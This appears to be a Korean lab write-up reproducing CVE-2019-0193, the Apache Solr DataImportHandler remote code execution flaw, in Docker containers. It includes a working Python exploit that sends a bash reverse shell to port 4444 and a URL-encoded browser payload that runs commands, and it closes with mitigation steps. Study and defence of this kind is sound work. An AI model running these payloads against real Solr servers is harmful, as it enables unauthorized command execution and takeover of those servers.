









# CVE-2019-0193

contributors : 허찬영(https://github.com/whatever0356)

---

# 1. CVE-2019-0193 취약점

Apache Solr는 Apache Lucene 기반의 오픈소스 검색 플랫폼이다. 
8983 포트에서 관리자 UI 및 REST API를 별도 인증 없이 제공한다.
DataImportHandler는 외부 데이터를 Solr로 가져오기 위한 모듈이다. 기본적으로 설치되어있는 모듈은 아니지만 많이 사용되는 모듈이다.
Apache Solr 8.2.0 미만 버전에서는 인증 없이 접근 가능한 관리자 UI/API를 통해 DIH의 디버그 모드를 사용할 수 있다. 이 모드에서는 HTTP 요청의 dataConfig 파라미터로 DIH 설정 XML 전체를 직접 전달할 수 있다.
이때 공격자가 전달하는 dataConfig XML에는 script 태그가 포함될 수 있다. 여기에 포함된 스크립트는 Nashorn JavaScript 엔진에서 실행되는데, Nashorn은 Java 클래스에 직접 접근하여 Runtime.getRuntime().exec()를 호출해 서버에서 임의의 OS 명령을 실행할 수 있다.
취약점 재현을 위해서는 다음 조건이 모두 충족되어야 한다.

1. Apache Solr 버전이 8.2.0 미만일 것 (또는 8.2.0 이상이라도 -Denable.dih.dataConfigParam=true가 설정되어 있을 것)
2. DataImportHandler가 등록된 core가 존재할 것
3. 대상 네트워크의 8983 포트에 접근 가능하고, 별도의 인증이 적용되어 있지 않을 것

# 2. 환경 구성


```
docker/
├── docker-compose.yml       # solr(target) + attacker 컨테이너 정의
├── Dockerfile               # solr:8.1.1 기반 타겟컨테이너(solr 사용)
├── Dockerfile.attacker      # python:3.11-slim 기반 공격자 컨테이너
├── solrconfig.xml           # DataImportHandler 활성화 설정
├── managed-schema           # myCore 작동위한 최소한의 설정
└── poc.py                   # PoC 자동화 스크립트 
```

target : 우분투 공식 solr:8.1.1 이미지에 DIH 관련 .jar 파일 및 dataimport 핸들러가 등록된 core 관련 설정이 완료된 컨테이너이다.

attacker : DIH 취약점을 익스플로잇 하기위한도구가 설치되어있는 환경이다.

# 3. 재현절차

## **1. 컨테이너 실행**

```
docker compose up -d
```





컨테이너 실행시 attacker 는 바로 4444포트에서 nc 수신 대기를 시작한다.



## 2. 익스플로잇

### 2.1 poc.py를 이용한 익스플로잇

poc.py 코드는 다음과 같다.

```python
import requests

TARGET = "http://solr:8983"
LHOST = "attacker"
LPORT = 4444

PAYLOAD = f"""<dataConfig>
  <script><![CDATA[
    function poc(){{
      var cmd = Java.to(["/bin/bash","-c","bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1"], "java.lang.String[]");
      java.lang.Runtime.getRuntime().exec(cmd);
    }}
  ]]></script>
  <document>
    <entity name="e" fileName=".*" baseDir="/tmp"
            processor="FileListEntityProcessor" recursive="false"
            transformer="script:poc" />
  </document>
</dataConfig>"""


def get_core():
    cores = requests.get(f"{TARGET}/solr/admin/cores?wt=json", timeout=10).json()["status"]
    if not cores:
        print("core not found")
        return
    core = next(iter(cores))
    print(f"core: {core}")
    return core


def exploit():
    core = get_core()
    data = {
        "command": "full-import",
        "clean": "false",
        "commit": "true",
        "core": core,
        "name": "poc",
        "dataConfig": PAYLOAD,
    }
    try:
        requests.post(f"{TARGET}/solr/{core}/dataimport", data=data, timeout=10)
        print("payload sent")
    except requests.exceptions.RequestException:
        print("payload failed")
        return

if __name__ == "__main__":
    exploit()
```

taget 컨테이너의 core 이름을 자동으로 조회한 뒤, dataimport 핸들러에 script 를 삽입해 attacker(4444) 로 리버스쉘을 연결하는 페이로드를 전송한다.

```jsx
docker compose exec attacker python3 poc.py
```

poc.py를 사용해 target 에서 attacker 로 리버스쉘연결을 시도한다.



```
docker attach attacker
```

쉘 획득 후 공격자 컨테이너에 연결하여 확인한다.



```
docker compose down
```
docker compse down 으로 환경을 다시 종료한다.

### 2.2 브라우저를 통해 직접 재현

```
http://localhost:8983/solr/#/~cores/myCore
```

실제 환경에서는 localhost 대신 타겟서버의 ip를 입력해야하지만 편의상 해당 환경에서는 localhost 로 접속한다.



접속시 다음과 같은 화면을 볼 수 있다. 여기서 core admin 탭에 들어가면 myCore 라는 이름을 확인 가능하다.



아래 url로 접속하여 target 컨테이너에서 파일을 생성하는 명령을 실행한다.

http://localhost:8983/solr/myCore/dataimport?command=full-import&clean=false&commit=true&core=myCore&name=poc&dataConfig=%3CdataConfig%3E%0A++%3Cscript%3E%3C%21%5BCDATA%5B%0A++++function+poc%28%29%7B%0A++++++var+cmd+%3D+Java.to%28%5B%22%2Fbin%2Fbash%22%2C%22-c%22%2C%22id+%3E+%2Ftmp%2Fbrowser_test.txt%22%5D%2C+%22java.lang.String%5B%5D%22%29%3B%0A++++++java.lang.Runtime.getRuntime%28%29.exec%28cmd%29%3B%0A++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22e%22+fileName%3D%22.%2A%22+baseDir%3D%22%2Ftmp%22%0A++++++++++++processor%3D%22FileListEntityProcessor%22+recursive%3D%22false%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E

위 url의 data config 파라미터는 아래 xml을 URL 인코딩한것이다.

```
<dataConfig>
  <script><![CDATA[
    function poc(){
      var cmd = Java.to(["/bin/bash","-c","id > /tmp/browser_test.txt"], "java.lang.String[]");
      java.lang.Runtime.getRuntime().exec(cmd);
    }
  ]]></script>
  <document>
    <entity name="e" fileName=".*" baseDir="/tmp"
            processor="FileListEntityProcessor" recursive="false"
            transformer="script:poc" />
  </document>
</dataConfig>
```



아래명령으로 url로 전송한 명령이 실행되었는지 확인한다.

```
docker compose exec solr cat /tmp/browser_test.txt
```



파일이 정상적으로 생성된것을 확인 가능하다.

# 4. 대응 방안

1. 버전 업그레이드: Apache Solr를 8.2.0 이상 버전으로 업그레이드한다. 8.2.0부터는 DataImportHandler의 script 등 디버그 관련 기능이 기본적으로 비활성화되며, 별도 설정(enable.dih.dataConfigParam, enable.dih.debugMode 등)을 명시적으로 켜야만 동작하도록 변경되었다.
2. DataImportHandler 비활성화: 기능을 사용하지 않는다면 solrconfig.xml 에서 /dataimport 요청 핸들러 자체를 제거하거나 비활성화한다.
3. 디버그 모드 제한: DIH를 사용해야 하는 경우, dataConfig 파라미터를 통한 런타임 설정변경 및 debug=true 옵션 사용을 서버 측에서 차단한다.
4. 네트워크 접근 제어: Solr 관리 UI/API(8983 포트)를 외부에 직접 노출하지 않고 방화벽이나 프록시 등을 사용해 접근을 제한한다.
5. 인증 및 인가: Solr의 Basic Authentication, Rule-Based Authorization 플러그인 등을 사용해 인증되지 않은 사용자가 관리자 페이지나 core 관리 기능에 접근하지 못하도록 한다.
